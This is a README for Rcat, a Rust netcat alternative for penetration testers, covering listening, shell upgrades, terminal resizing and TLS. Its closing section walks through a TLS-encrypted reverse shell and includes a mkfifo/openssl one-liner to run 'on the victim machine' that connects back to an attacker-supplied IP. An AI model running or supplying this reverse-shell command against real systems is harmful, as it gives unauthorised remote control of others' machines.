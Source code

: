 <div align="center">

# Rcat
### A better netcat for hackers

</div>

### Overview

__Rcat__ is a modern _netcat_ written in Rust, packed with features for hackers.

<img src="images/rcat_curl.svg">

Here we listen on port `tcp:9001`, and receive an HTTP request made with `curl`.

### Install

```bash
git clone git@github.com:0xfalafel/rcat.git
cargo install --path .
```

### Features

#### Familiar syntax

Rcat keeps a syntax similar to _netcat_. You already know how to use it.

* `-l` to listen.
* `-u` for udp.

#### Shell Upgrade

Rcat can __upgrade your shells__ with the `--pwn` option.  
With an upgraded shell, you can use shortcuts like `Ctrl + C`, clear the terminal with `clear` or `Ctrl + L`, etc. It's like having an SSH connection.
There is no need to [type 7 commands](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) each time you obtain a reverse shell.

<img src="images/rcat_pwn.svg">

> Here the commands `stty rows 22 cols 65` and `export TERM=xterm-256colors` are typed automatically when the connection is received.

#### Resize

Unless you use the `-R` option, the remote terminal will automatically be resized when you change the size of your terminal.  
(Rcat sends a _SIGTSTP_, resizes the terminal with the `stty` command then uses `fg` to restore the application running.)

<img src="images/rcat_resize.webp">

> In this clip we run `htop` on the victim machine, and the reverse shell is automatically resized.

#### TLS support

Support of __TLS__ with `-t` or `--tls`.  
Here we do an HTTPS request. We use `-t` to establish a _TLS connection_, and `-c` to replace newlines (`\n`) with _CRLF_ newlines (`\r\n`) as required by the HTTP protocol.

<img src="images/rcat_tls.svg">

  
## Encrypted Reverse shell

With TLS support, let's see how we can do an __TLS encrypted reverse shell__. Without installing any new tools on the victim.

If possible, you should probably use a signed certificate (with [let's encrypt](https://certbot.eff.org/instructions) for example), but for now let's use a self-signed certificate.

### Generate Key and Certificate

Let's generate a __self-signed certificate__ with `openssl`.

```bash
openssl genrsa -out private-key.pem 2048
openssl req -new -x509 -key private-key.pem -out my.cert -days 365
```

### Reverse Shell

Armed with this, let's create a _listener_ that supports TLS.

```bash
rcat -l 9001 -t --cert my.cert --key private-key.pem --pwn
```

Then execute the following command on the victim machine:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| openssl s_client -connect YOUR_IP:9001 >/tmp/f
```

